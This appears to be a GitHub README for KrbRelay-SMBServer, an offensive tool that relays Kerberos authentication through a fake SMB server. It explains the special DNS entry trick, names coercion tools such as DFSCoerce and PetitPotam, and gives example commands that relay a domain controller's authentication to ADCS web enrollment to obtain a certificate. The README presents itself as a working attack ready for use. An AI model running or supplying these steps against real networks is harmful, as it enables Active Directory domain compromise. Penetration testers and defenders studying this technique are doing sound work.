 # KrbRelay-SMBServer

This version of Krbrelay is intended to act as an SMBServer (instead of DCOM) and relay the kerberos AP-REQ to CIFS or HTTP.<br>
90% of code is taken from the great KrebRelay tool: https://github.com/cube0x0/KrbRelay<br><br>
To have control over SPN, which is mandatory for relaying Kerberos, in this case we need to use James Forshaw  *CredMasrhalTargetInfo()*  trick documented here: https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html<br><br>
All you need is to create a DNS entry with the name of the target server you want relay in the form: *<server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAA* and map it to the ip address of your listening machine.<br>Normally domain users can perform DNS secure updates.
You can use powershell script *invoke-dnsupdate* (https://github.com/Kevin-Robertson/Powermad) for adding a DNS entry<br><br>
You need to trigger the authentication with a third-party tool, for example  DFSCoerce https://github.com/Wh04m1001/DFSCoerce,  PetitPotam https://github.com/topotam/PetitPotam , etc...<br><br>
Given that SMB port is 445 you have two options on the Windows attacker machine:<br>
* use a Linux box acting as redirector
* disable the SERVER serice on your Windows machine
<br><br>
### Examples

````
# Relay the DC SMB authentication to HTTP (ADCS) web enrollment and request client certificate using a socat redirector lsitening on port 9999:<br>
krbRelay.exe -spn http/adcs-mylab.mylab.local -redirecthost adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -endpoint certsrv  -adcs DomainController -listenerport 9999<br>
In another window:
DFSCoerce.exe -l adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA  -t DC-2
(https://github.com/decoder-it/DFSCoerce-exe-2)

# special command line swicthes:
-listener: relay listener port
-redirector: relay server mapped to the sepcial DNS entry <server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAA
For detailed usage and command line switches refer to original krbleay tool
````
<img width="1036" alt="Screenshot 2024-10-04 135731" src="https://github.com/user-attachments/assets/e2f95aa4-6c94-4517-b6c8-d7629a19a9f4">
<img width="1001" alt="Screenshot 2024-10-04 141231" src="https://github.com/user-attachments/assets/fd7bb972-0942-48d9-b99b-ba623f2823b0">
